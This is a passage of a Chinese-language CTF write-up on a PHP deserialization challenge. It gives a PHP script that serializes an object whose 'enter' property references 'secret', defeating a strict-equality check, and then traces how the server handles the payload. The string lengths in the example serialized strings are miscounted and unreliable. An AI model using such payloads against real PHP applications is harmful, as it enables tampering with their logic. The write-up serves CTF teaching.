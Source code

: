     ![引用 1](/hello_ctf/images/ser15.png) (代码)
    *   **利用:** 构造序列化字符串，让 `enter` 属性引用 `secret` 属性。这样无论 `secret` 被如何修改，`enter` 都会跟着改变，保持严格相等。
        ```php
        <?php
        class A {
            public $enter;
            public $secret;
        }
        $a = new A();
        // 让 enter 引用 secret
        $a->enter = &$a->secret; 
        // 设置一个初始值，包含会被替换的 '*'
        $a->secret = 'initial*value'; 
        
        $payload = serialize($a);
        // 示例 payload (实际索引可能不同): O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:14:"initial*value";}
        echo urlencode($payload);
        ?>
        ```
        当服务器接收到这个 payload:
        1. `*` 被替换为 `\*`: `O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:15:"initial\*value";}`
        2. 反序列化: 创建 A 对象，`secret` 为 "initial\*value"，`enter` 指向 `secret`。
        3. `$obj->secret = "*"`: `secret` 被改为 `*`。由于 `enter` 引用 `secret`，`enter` 也变为 `*`。
        4. `if ($obj->enter === $obj->secret)`: 判断为 `true`。